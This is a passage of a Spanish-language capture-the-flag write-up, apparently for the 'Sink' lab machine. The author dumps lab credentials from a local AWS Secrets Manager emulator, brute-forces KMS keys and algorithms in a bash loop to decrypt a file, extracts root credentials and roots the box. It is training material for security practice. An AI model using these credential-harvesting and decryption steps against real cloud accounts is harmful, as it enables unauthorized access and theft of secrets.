            "SecretVersionsToStages": {
                "11970b3b-74d9-4f21-96b6-9330b8c3d826": [
                    "AWSCURRENT"
                ]
            }
        },
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-PVNoO",
            "Name": "Jira Support",
            "Description": "Manage customer issues",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
            "SecretVersionsToStages": {
                "79b041d5-5aeb-4b27-ab3a-d5eed801b4a5": [
                    "AWSCURRENT"
                ]
            }
        }
    ]
}
```

```zsh
aws --endpoint-url="http://127.0.0.1:4566" secretsmanager list-secrets | grep "arn:aws" | grep -oP '".*?"' | grep -v "ARN" | tr -d '"'

arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-wDLec
arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-uMVda
arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-PVNoO
```

```zsh
aws --endpoint-url="http://127.0.0.1:4566" secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-wDLec"
```

Lo intentaremos con los 3 secrets id:

```zsh
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-wDLec",
    "Name": "Jenkins Login",
    "VersionId": "eb2a987e-bc6a-4b66-a89c-e3452eeaeb40",
    "SecretString": "{\"username\":\"john@sink.htb\",\"password\":\"R);\\)ShS99mZ~8j\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1752385423
}
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-uMVda",
    "Name": "Sink Panel",
    "VersionId": "11970b3b-74d9-4f21-96b6-9330b8c3d826",
    "SecretString": "{\"username\":\"albert@sink.htb\",\"password\":\"Welcome123!\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1752385423
}
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-PVNoO",
    "Name": "Jira Support",
    "VersionId": "79b041d5-5aeb-4b27-ab3a-d5eed801b4a5",
    "SecretString": "{\"username\":\"david@sink.htb\",\"password\":\"EALB=bcC=`a7f2#k\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1752385423
}
```

Vemos el usuario david con una contraseña, intentaremos validar si podemos iniciar sesion como david.

```zsh
david:EALB=bcC=`a7f2#k
```



``sudo -l``



## AWS KMS Decrypting File

```zsh
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys
```

```zsh
aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep KeyId | awk 'NF{print $NF}' | tr -d '"' | tr -d ','
```

```
0b539917-5eff-45b2-9fa1-e13f0d2c42ac
16754494-4333-4f77-ad4c-d0b73d799939
2378914f-ea22-47af-8b0c-8252ef09cd5f
2bf9c582-eed7-482f-bfb6-2e4e7eb88b78
53bb45ef-bf96-47b2-a423-74d9b89a297a
804125db-bdf1-465a-a058-07fc87c0fad0
837a2f6e-e64c-45bc-a7aa-efa56a550401
881df7e3-fb6f-4c7b-9195-7f210e79e525
c5217c17-5675-42f7-a6ec-b5aa9b9dbbde
f0579746-10c3-4fd1-b2ab-f312a5a0f3fc
f2358fef-e813-4c59-87c8-70e50f6d4f70
```

```bash
#!/bin/bash

declare -a algorithms=(SYMETRIC_DEFAULT RSAES_OAEP_SHA_1 RSAES_OAEP_SHA_256)

for algorithm in ${algorithms[@]}; do
  aws --endpoint-url="http://127.0.0.1:4566" kms list-keys | grep KeyId | awk 'NF{print $NF}' | tr -d '"' | tr -d ',' | while read key_id; do
    echo -e "\n[+] Testing key_id: $key_id and algorithm $algorithm:\n"
    aws --endpoint-url="http://127.0.0.1:4566" kms decrypt --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc --key-id "$key_id" --encryption-algorithm $algorithm
  done
done
```



```zsh
[+] Testing key_id: 804125db-bdf1-465a-a058-07fc87c0fad0 and algorithm RSAES_OAEP_SHA_256:

{
    "KeyId": "arn:aws:kms:us-east-1:000000000000:key/804125db-bdf1-465a-a058-07fc87c0fad0",
    "Plaintext": "H4sIAAAAAAAAAytOLSpLLSrWq8zNYaAVMAACMxMTMA0E6LSBkaExg6GxubmJqbmxqZkxg4GhkYGhAYOCAc1chARKi0sSixQUGIry80vwqSMkP0RBMTj+rbgUFHIyi0tS8xJTUoqsFJSUgAIF+UUlVgoWBkBmRn5xSTFIkYKCrkJyalFJsV5xZl62XkZJElSwLLE0pwQhmJKaBhIoLYaYnZeYm2qlkJiSm5kHMjixuNhKIb40tSqlNFDRNdLU0SMt1YhroINiRIJiaP4vzkynmR2E878hLP+bGALZBoaG5qamo/mfHsCgsY3JUVnT6ra3Ea8jq+qJhVuVUw32RXC+5E7RteNPdm7ff712xavQy6bsqbYZO3alZbyJ22V5nP/XtANG+iunh08t2GdR9vUKk2ON1IfdsSs864IuWBr95xPdoDtL9cA+janZtRmJyt8crn9a5V7e9aXp1BcO7bfCFyZ0v1w6a8vLAw7OG9crNK/RWukXUDTQATEKRsEoGAWjYBSMglEwCkbBKBgFo2AUjIJRMApGwSgYBaNgFIyCUTAKRsEoGAWjYBSMglEwRAEATgL7TAAoAAA=",
    "EncryptionAlgorithm": "RSAES_OAEP_SHA_256"
}
```

Desencriptamos en base64 y lo pasamos a un archivo llamado ``aws``

```zsh
echo "H4sIAAAAAAAAAytOLSpLLSrWq8zNYaAVMAACMxMTMA0E6LSBkaExg6GxubmJqbmxqZkxg4GhkYGhAYOCAc1chARKi0sSixQUGIry80vwqSMkP0RBMTj+rbgUFHIyi0tS8xJTUoqsFJSUgAIF+UUlVgoWBkBmRn5xSTFIkYKCrkJyalFJsV5xZl62XkZJElSwLLE0pwQhmJKaBhIoLYaYnZeYm2qlkJiSm5kHMjixuNhKIb40tSqlNFDRNdLU0SMt1YhroINiRIJiaP4vzkynmR2E878hLP+bGALZBoaG5qamo/mfHsCgsY3JUVnT6ra3Ea8jq+qJhVuVUw32RXC+5E7RteNPdm7ff712xavQy6bsqbYZO3alZbyJ22V5nP/XtANG+iunh08t2GdR9vUKk2ON1IfdsSs864IuWBr95xPdoDtL9cA+janZtRmJyt8crn9a5V7e9aXp1BcO7bfCFyZ0v1w6a8vLAw7OG9crNK/RWukXUDTQATEKRsEoGAWjYBSMglEwCkbBKBgFo2AUjIJRMApGwSgYBaNgFIyCUTAKRsEoGAWjYBSMglEwRAEATgL7TAAoAAA=" | base64 -d > aws 
```

```zsh
file aws    

aws: gzip compressed data, from Unix, original size modulo 2^32 10240
```


```zsh
 mv aws aws.gz
 gunzipo aws.gz
 mv aws aws.tar
 tar -xf aws.tar
```

Una vez descomprimimos el archivo, tenemos 2 archivos.



El ``servers.yml`` contiene credenciales como root


Logeamos como root y maquina rooted.


